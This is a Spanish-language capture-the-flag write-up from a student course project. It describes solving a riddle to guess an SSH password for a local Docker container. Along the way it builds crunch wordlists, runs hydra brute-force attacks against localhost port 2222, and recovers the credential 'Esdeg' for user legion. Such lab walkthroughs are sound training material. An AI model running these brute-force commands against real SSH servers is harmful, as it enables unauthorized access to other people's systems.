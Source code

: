 # 🛡️ Reto CTF: Ubuntu con SSH y Usuario 'Legion'

## 🎯 Objetivo
*Acceder vía SSH a un contenedor Docker con usuario `legion`, cuya contraseña debe ser descubierta a través de fuerza bruta basada en un acertijo. Se utilizaron herramientas como `crunch` e `hydra` para automatizar el proceso.*

-------------------------------------------------------------------------------------------------------------------------------------------------------------------

## 🧱 1. Preparación del entorno

![Alistamiento](Images/soldat-soldier.gif)

### *Descargar imagen del contenedor*

```bash
docker pull jaiderospina/retoctf:1.0
```

### *Ejecutar contenedor en segundo plano*

```bash
docker run -d -p 2222:22 --name mi-contenedor-ssh jaiderospina/retoctf:1.0
```
![exe contenedor](Images/1.%20exe%20cont%20.png)

###  *Solución a conflicto de nombre* 

```bash
docker rm -f mi-contenedor-ssh
```
-------------------------------------------------------------------------------------------------------------------------------------------------------------------

## 🔍 2. Verificación del contenedor

```bash
docker ps
```

*Se confirmó contenedor activo y SSH escuchando en puerto 2222.*

![verif contenedor](Images/2.%20verif%20cont%20.png)

-------------------------------------------------------------------------------------------------------------------------------------------------------------------

## 🧠 3. Análisis del acertijo

### *Acertijo:*

*Your content *Cinco guardianes vigilantes,*  
*cada uno con su inicial,*  
*la primera se esconde en estrella,*  
*la segunda en la selva tropical,*  
*tercera y cuarta van seguidas,*  
*ambas en dedo se dejan hallar,*  
*la última es misteriosa,*  
*y en gato suena al final.*  
*Juntas caminan siempre en fila.*

### *Análisis:*

***Pista:** Cinco letras ocultas y podría existir relación con las iniciales.*


| Posición | Palabra   |Letra identificada |
|----------|-----------|-------------------|
| 1        | estrella  |      **e**        |
| 2        | selva     |      **s**        |
| 3 y 4    | dedo      |   **d**-**e**     |
| 5        | gato      |      **g**        |

*Siguiendo las instrucciones del acertijo y analizando el contexto se llegó a una hipótesis.*

**Hipótesis principal**: combinación posible **esdeg**, **ESDEG**, etc.

-------------------------------------------------------------------------------------------------------------------------------------------------------------------

## 🧰 4. Generación de diccionarios con Crunch

### *Lista basada en patrón:*

crunch 5 5 -t ES%%O -o esdeo.lst

![Crunch](Images/4.%20crunch%20+%20hydra%201%20.png)

### *Lista reducida:*

crunch 5 5 estdgo -o reducido.lst

![Crunch](Images/4.1%20crunch%20+%20hydra%202%20.png)

### *Lista ampliada:*

crunch 5 5 estdogal -o ampliada.lst

![Crunch](Images/4.2%20hydra%20.png)

### *Lista completa:*


crunch 5 5 abcdefghijklmnopqrstuvwxyz -o full.lst

![Crunch](Images/4.3%20crunch%20+%20hydra%203%20.png)

-------------------------------------------------------------------------------------------------------------------------------------------------------------------

## ⚔️ 5. Ataques con Hydra

## *Comando base usado:*


```bash
hydra -t 4 -l legion -P [archivo] -s 2222 localhost ssh
```

## *Diccionarios probados:*

esdeo.lst ❌

reducido.lst ❌

ampliada.lst ❌

-------------------------------------------------------------------------------------------------------------------------------------------------------------------

## 👣 6. Verificación manual de servicio SSH

```bash
ssh legion@localhost -p 2222
Confirmado: SSH activo y pidiendo contraseña.
```

![Acces Denied](Images/request-denied-thumbs-down.gif)

-------------------------------------------------------------------------------------------------------------------------------------------------------------------

## 🎯 7. Ataque exitoso con combinaciones personalizadas

### *Crear wordlist:*

```bash
echo -e "esdeg\nESDEG\nEsdeg\neSdeg\nesDEG\neSdEg\nEsDEg\nESDeg\nesDEg\nEsdEg" > combinadas.lst
```
### *Ejecutar Hydra:*

```bash
hydra -l legion -P combinadas.lst -s 2222 localhost ssh
```

![Bang](Images/7.1%20BANG!%20.avif)

## ✅ Resultado:

css

[22][ssh] host: localhost login: legion password: Esdeg

-------------------------------------------------------------------------------------------------------------------------------------------------------------------

## 🔐 8. Acceso SSH exitoso


ssh legion@localhost -p 2222
# Contraseña: Esdeg
🕵️ 9. Búsqueda de bandera

## *Comandos usados:*

ls -la
cat flag.txt
find / -name "*flag*" 2>/dev/null
cat /etc/motd
grep -r "CTF{" /home 2>/dev/null

## ❌ No se encontró bandera explícita en el contenedor.

## 🧠 Lecciones aprendidas
Uso táctico de crunch para generar diccionarios.

Dominio de hydra con control de tareas (-t).

Verificación previa de puertos y servicio SSH.

Importancia de considerar variantes en uso de mayúsculas.

Documentación detallada del proceso paso a paso.

Contraseña final encontrada: Esdeg
Usuario: legion
Puerto: 2222

📁 Autor: [grupo 4 - ]
📅 Fecha: Julio 2025
🎓 Proyecto académico – Electiva Habilidades Prácticas CTF



